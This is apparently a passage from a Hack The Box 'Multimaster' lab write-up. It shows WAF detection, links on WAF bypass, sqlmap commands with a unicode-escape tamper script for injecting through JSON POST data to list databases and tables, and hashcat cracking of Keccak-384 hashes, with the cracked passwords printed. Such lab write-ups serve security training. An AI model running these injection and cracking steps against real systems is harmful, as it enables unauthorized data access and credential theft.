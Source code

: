 used [wafw00f](https://github.com/enablesecurity/wafw00f) to detect if there was a WAF, but none was detected [https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/](https://trustfoundry.net/bypassing-wafs-with-json-unicode-escape-sequences/) [https://github.com/0xInfection/Awesome-WAF\#testing-methodology](https://github.com/0xInfection/Awesome-WAF#testing-methodology) [https://github.com/sqlmapproject/sqlmap/blob/master/tamper/charunicodeescape.py](https://github.com/sqlmapproject/sqlmap/blob/master/tamper/charunicodeescape.py)

mine [https://stackoverflow.com/questions/40628603/sqlmap-post-json-data-as-body](https://stackoverflow.com/questions/40628603/sqlmap-post-json-data-as-body) [https://www.yg.ht/blog/blog/archives/361/getting-sqlmap-to-detect-injection-points-through-json](https://www.yg.ht/blog/blog/archives/361/getting-sqlmap-to-detect-injection-points-through-json) sqlmap -r burppost —tamper charunicodetamper.py —dbs -delay 5 sqlmap -r burppost —tamper charunicodetamper.py —D Hub\_DB -tables -delay 5 sqlmap will automatically detect that there is JSON data in your POST and will ask if you would like for it to process it. sqlmap called hash sha384\_generic\_passwd [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/) verified that the hash was sha2-384 There were duplicates of each hash, only four unique;

hashcat -m 10800 -a 0 -o hash.cracked hash /usr/share/wordlists/rockyou.txt Possible algorithms: Keccak-384

```text
zweilos@kalimaa:~/htb/multimaster$hashcat -m 17900 -a 0 -o hash.cracked hash /usr/share/wordlists/rockyou.txt
snipped...

Session..........: hashcat
Status...........: Exhausted
Hash.Name........: Keccak-384
Hash.Target......: hash
Time.Started.....: Mon Jul 20 19:17:45 2020 (11 secs)
Time.Estimated...: Mon Jul 20 19:17:56 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1309.3 kH/s (1.74ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 3/4 (75.00%) Digests
Progress.........: 14344385/14344385 (100.00%)
Rejected.........: 3094/14344385 (0.02%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: $HEX[21217265626f756e642121] -> $HEX[042a0337c2a156616d6f732103]

Started: Mon Jul 20 19:17:26 2020
Stopped: Mon Jul 20 19:17:57 2020
```

Hashcat was able to crack 3 out of 4 of the hashes

```text
zweilos@kalimaa:~/htb/multimaster$ cat hash.cracked 
9777768363a66709804f592aac4c84b755db6d4ec59960d4cee5951e86060e768d97be2d20d79dbccbe242c2244e5739:password1
68d1054460bf0d22cd5182288b8e82306cca95639ee8eb1470be1648149ae1f71201fbacc3edb639eed4e954ce5f0813:finance1
fb40643498f8318cb3fb4af397bbce903957dde8edde85051d59998aa2f244f7fc80dd2928e648465b8e7a1946a50cfa:banking1
```
